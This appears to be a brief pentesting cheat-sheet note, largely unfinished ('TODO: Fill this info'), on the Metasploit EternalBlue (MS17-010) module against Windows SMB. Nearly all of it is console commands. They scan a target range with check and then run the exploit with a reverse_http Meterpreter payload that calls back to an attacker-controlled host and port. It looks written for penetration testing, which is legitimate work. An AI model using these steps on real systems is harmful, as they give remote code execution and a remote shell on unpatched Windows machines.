 # Metasploit

TODO: Fill this info

## 01 - Scan IP address(es)

```
msf > use exploit/windows/smb/ms17_010_eternalblue
```

```
msf exploit(windows/smb/ms17_010_eternablue) > set rhosts <IP>/<CIDR>
```

```
msf exploit(windows/smb/ms17_010_eternablue) > check
```

## 02 - Exploit

```
msf > use exploit/windows/smb/ms17_010_eternalblue

msf exploit(windows/smb/ms17_010_eternablue) > set payload windows/x64/meterpreter/reverse_http

msf exploit(windows/smb/ms17_010_eternablue) > options

msf exploit(windows/smb/ms17_010_eternablue) > set rhosts <target_IP>

msf exploit(windows/smb/ms17_010_eternablue) > set lhost <attacker_IP>

msf exploit(windows/smb/ms17_010_eternablue) > set lport <attacker_PORT>

msf exploit(windows/smb/ms17_010_eternablue) > run
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures Phases/B - Vulnerability Assessment/0x03 - Network Ports/Remote Services/SMB|Vulnerability Assessment: SMB]]

### Sploitify

- [Sploitify: Eternalblue MS17-010](https://sploitify.haxx.it/exploits/2017/MS17-010/)